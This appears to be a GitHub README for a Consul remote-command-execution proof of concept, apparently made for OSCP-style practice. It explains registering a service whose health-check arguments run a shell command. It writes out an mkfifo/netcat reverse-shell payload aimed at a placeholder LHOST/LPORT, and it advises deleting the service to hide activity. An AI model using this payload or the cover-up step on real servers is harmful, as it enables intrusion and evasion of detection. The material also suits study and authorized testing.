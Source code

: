 # Hashicorp Consul - Remote Command Execution PoC
Author: blu3ming
This is a variation of the PoC found in Metasploit. The objective of this script is not to depend on that tool (OSCP style) and to perform the same procedure manually.

## Consul
Consul is a free and open-source service networking platform developed by HashiCorp. It has a RCE vulnerability when creating a service through it's API.

## Creating a service
As [Consul documentation](https://developer.hashicorp.com/consul/api-docs/agent/service) describes, we can create a service using the /v1/agent/service/register endpoint, which receives the following data via a PUT request:

- ID: Specifies a unique ID for this service
- Name: Specifies the logical name of the service
- Address: Specifies the address of the service
- Port: Specifies the port of the service
- Check: Specifies a check and, according to it's [documentation](https://developer.hashicorp.com/consul/api-docs/agent/check), uses the following data:
    * Args: Specifies command arguments to run to update the status of the check (eg. "args": ["sh", "-c", "..."])
    * Interval: Specifies the frequency at which to run this check
    * Timeout: Specifies a timeout for outgoing connections in the case of a Script, HTTP, TCP, UDP, or gRPC check
   
## Remote command execution
The creation of this service requires an authentication token from the Consul service, also known as ACL Token. As we can see, we can declare a command inside the Check.Args parameter, and Consul will execute it for us. In this case, we want to execute a reverse shell to get access to the Consul server:

  "Args":["sh", "-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f"]
  
With this command, now we can bind for a connection with the help of the **shell** function of the Python library **pwntools**.

## Getting access to the server
Consul returns an interactive console:
![imagen](https://user-images.githubusercontent.com/25083316/206324244-5449ebe5-269d-4634-847e-614f7b09c108.png)

## Deleting the service
Finally, we need to delete the service created in order to hide oir activity. This can be done making a PUT request to the /v1/agent/service/deregister/[NAME] endpoint, of course, still using the ACL Token from Consul.
![imagen](https://user-images.githubusercontent.com/25083316/206324287-f6ad616c-67f7-4e9a-b114-1f33ac50fd85.png)
